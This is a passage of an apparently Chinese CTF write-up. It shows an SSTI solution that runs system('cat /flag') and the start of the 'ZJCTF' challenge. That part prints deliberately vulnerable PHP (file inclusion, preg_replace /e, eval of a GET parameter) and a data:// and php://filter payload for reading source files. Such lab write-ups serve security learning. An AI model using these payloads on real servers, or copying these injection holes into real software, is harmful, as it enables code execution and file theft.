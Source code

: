 是ssti没错了

```
输入{phpinfo()}成功执行

{system("cat /flag")}  即可拿到flag
```

## ZJCTF，不过如此

给出了源码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

要让$text变成文件类型，使用为data协议或者远程文件包含,提示next.php文件，使用为协议读取文件源码

```
payload:?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```

得到源码

```php
//next.php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```
